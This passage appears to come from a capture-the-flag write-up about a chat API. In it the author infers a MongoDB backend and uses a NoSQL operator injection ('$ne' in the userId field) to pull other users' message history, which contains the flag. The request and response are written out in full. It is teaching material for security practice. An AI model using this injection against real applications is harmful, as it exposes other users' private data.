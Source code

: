 **Reponse**
```json
{
    "reply": {
        "userId": "ff37a073-ec9f-4fb0-a07a-382deddd5df5",
        "message": "Muda! Muda! Muda! Muda! Muda!",
        "fromDio": true,
        "_id": "5fc9919ee14a046803dfe59b"
    }
}
```

## Creating the Attack
The `_id` field used in the API responses stuck out to me as a convention I've seen used in MongoDB. There may be a NoSQL injection vulnerability here. 

It is possible that the message history gets fetched by a method that looks like this:

```js
db.collection.find({
    "userId": userId // Normally userId would be something harmless like "ff37a073-ec9f-4fb0-a07a-382deddd5df5"
})
```

We could inject this with a query selector to find documents that don't belong to us. We can try hitting the endpoint with a query to find all messages with a userId _not equal_ to our ID:

**Request**
```json
POST /hey HTTP/1.1

{"userId":{ "$ne": "ff37a073-ec9f-4fb0-a07a-382deddd5df5"}}

```

**Response**
```json
{
    "userId": {
        "$ne": "ff37a073-ec9f-4fb0-a07a-382deddd5df5"
    },
    "history": [
        {
            "_id": "5fc8f9f9e14a04179adfe599",
            "userId": "j0hn474n-j03574r",
            "message": "H2G2{k0n0_d10_d4_!}",
            "fromDio": true
        } // Snipped out all the other messages to save space
    ]
}
```

Success, we were able to view all the other messages in the database, and most importantly, the flag message: `H2G2{k0n0_d10_d4_!}`
